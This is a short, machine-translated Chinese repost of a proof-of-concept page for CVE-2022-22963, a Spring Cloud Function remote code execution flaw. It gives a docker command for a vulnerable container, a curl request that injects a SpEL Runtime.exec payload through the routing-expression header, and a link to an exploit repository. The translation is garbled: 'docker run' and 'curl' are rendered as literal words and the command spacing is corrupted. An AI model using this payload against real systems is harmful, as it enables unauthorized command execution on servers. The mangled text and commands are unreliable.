

# CVE-2022-22963:PoC Spring Java Framework 0 天远程代码执行漏洞

> 原文：<https://kalilinuxtutorials.com/cve-2022-22963/>

.png)

**CVE-2022-22963** 将运行易受攻击的 SpringBoot 应用程序运行此 docker 容器，将其暴露于端口 8080。示例:

**码头运行-it-d-p 8080:8080 bobcheat/springboot-public**

## 剥削

卷曲命令:

**curl-I-s-k-X $ ' POST '-H $ ' Host:192 . 168 . 1 . 2:8080 '-H $ ' spring . cloud . function . routing-expression:T(Java . lang . runtime)。getRuntime()。exec(\ " touch/tmp/test ")'–data-binary $ ' exploit _ POC ' $ ' http://192 . 168 . 1 . 2:8080/function router '**

或者使用 Burp 套件:

[**Download**](https://github.com/darryk10/CVE-2022-22963)